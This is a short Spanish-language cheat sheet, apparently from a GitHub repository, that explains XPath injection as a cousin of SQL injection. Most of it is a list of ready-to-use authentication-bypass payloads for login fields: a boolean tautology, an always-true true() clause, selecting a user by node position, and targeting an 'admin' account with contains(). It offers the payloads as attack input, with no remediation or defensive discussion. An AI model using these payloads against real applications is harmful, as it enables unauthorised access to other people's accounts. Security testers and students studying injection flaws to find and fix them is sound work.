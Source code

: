 # INFO
El xpath injection funciona parecido a las SQLI (es como una prima). Posee una sintaxis diferente y aborda los indexes de nodos dentro de un xml.

## Authentication bypass

#### Bypass mediante boolean simple:

    admin' or '1'='1

#### Bypass mediante un true absoluto

    ' or true() or '

#### Buscar un usuario por index de nodo para el logueo

    ' or position()=2 or '

#### Bypass buscando un usuario específico:

    ' or contains(.,'admin') or '


